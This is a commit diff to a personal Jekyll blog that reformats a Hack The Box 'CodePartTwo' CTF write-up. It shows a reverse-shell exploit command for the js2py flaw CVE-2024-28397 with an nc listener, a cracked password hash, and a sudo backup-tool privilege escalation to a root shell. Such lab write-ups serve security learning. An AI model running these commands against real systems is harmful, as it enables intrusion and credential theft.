

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-11-10-2025-codetwo.md

```diff
--- a/_posts/2025-11-10-2025-codetwo.md
+++ b/_posts/2025-11-10-2025-codetwo.md
@@ -2,50 +2,56 @@
 layout: post
 title: CODE PART TWO
 date:   2025-11-10 11:05
-description: TryHackMe Mr. Robot CTF Write-Up
-tags: tryhackme wordpress
+description: Hack the Box CodePartTwo CTF Write-Up
+tags: hackthebox
 comments: false
 ---
 # CODE PART TWO
--TRYHACKME CTF WRITEUP-
-[Link To CTF](https://tryhackme.com/room/mrrobot)
+-HackTheBox CTF WRITEUP-
+[Link To CTF]()
 
 
---CODE PART TWO--
 
 
 ## We start off with a basic ran namp scan to enumerate the open ports
 
 ![img]({{ '/assets/images/code/1-code.png' | relative_url }}){: .center-image }
 
-## We see our http webserver on port 8000 and SSH open on port 22
-## Let's navigate to the webpage ensuring to specify port 8000
 
-## Looking over the home page we can:
+## Let's navigate to the webpage on port 8000
+
+## The home page shows that we can:
 ## Download the source code, Register, or Login
 
----
+{% highlight bash %}
 I originally tried registering a user
 This showed the option to upload javascript code
 I failed to find any exploits here while testing xss javascript code
 I then turned my attention to the source code
----
+{% endhighlight bash %}
 
-## I then downloaded and uzipped the source code
+## Let's download and uzip the source code
 ## Looking in source code file we can see:
-## /app/instance/users.db
+
+{% highlight bash %}
+/app/instance/users.db
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/2-code.png' | relative_url }}){: .center-image }
 
-## Unofrtunately users.db showed nothing
+## Unfortunately users.db showed nothing
 
 ## Looking at:
-> requirements.txt
+{% highlight bash %}
+/app/requirements.txt
+{% endhighlight bash %}
 
 ## We can see:
+{% highlight bash %}
 flask==3.0.3
 flask-sqlalchemy==3.1.1
 js2py==0.74
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/3-code.png' | relative_url }}){: .center-image }
 
@@ -54,8 +60,10 @@
 [https://github.com/naclapor/CVE-2024-28397](https://github.com/naclapor/CVE-2024-28397)
 
 ## Let's start a listener and run the exploit:
-> $  nc -lvnp <listen_port>
-> $  python3 codetwo.py --target http://10.10.11.82:8000/run_code --lhost 10.10.15.194 --lport 4444
+{% highlight bash %}
+$  nc -lvnp <listen_port>
+$  python3 codetwo.py --target http://10.10.11.82:8000/run_code --lhost 10.10.15.194 --lport 4444
+{% endhighlight bash %}
 
 ![img]({{ '/assets/code/images/4-code.png' | relative_url }}){: .center-image }
 
@@ -64,15 +72,12 @@
 ![img]({{ '/assets/images/code/5-code.png' | relative_url }}){: .center-image }
 
 ## In the /home directory, we can see the user "marco"
-
-------
-putting this into hydra failed
--------
 ## Looking at the backup file again
 ## We now see the password hash for "marco"
-> $ cd /home/app/app/instance/users.db:
 
-
+{% highlight bash %}
+$ cat /home/app/app/instance/users.db:
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/6-code.png' | relative_url }}){: .center-image }
 
@@ -82,7 +87,9 @@
 ## Putting this into an online cracker we get the password
 [hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)
 
-> 649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
+{% highlight bash %}
+649c9d65a206a75f5abe509fe128bce5:sweetangelbabylove
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/7-code.png' | relative_url }}){: .center-image }
 
@@ -135,7 +142,9 @@
 
 ## After the config file, lets run the backup script
 
+{% highlight bash %}
 $ sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/16-code.png' | relative_url }}){: .center-image }
 
@@ -144,7 +153,10 @@
 ## We show errors,
 ## Lets run the script again
 
-> $ sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
+{% highlight bash %}
+$ sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf -b
+{% endhighlight bash %}
+
 
 ![img]({{ '/assets/images/code/17-code.png' | relative_url }}){: .center-image }
 
@@ -156,7 +168,10 @@
 ## (To run /bin/bash script as root type we add -p to keep the original permissions)
 
 ## Run the script
-> /tmp/hacked -p
+
+{% highlight bash %}
+/tmp/hacked -p
+{% endhighlight bash %}
 
 ![img]({{ '/assets/images/code/18-code.png' | relative_url }}){: .center-image }
 
```
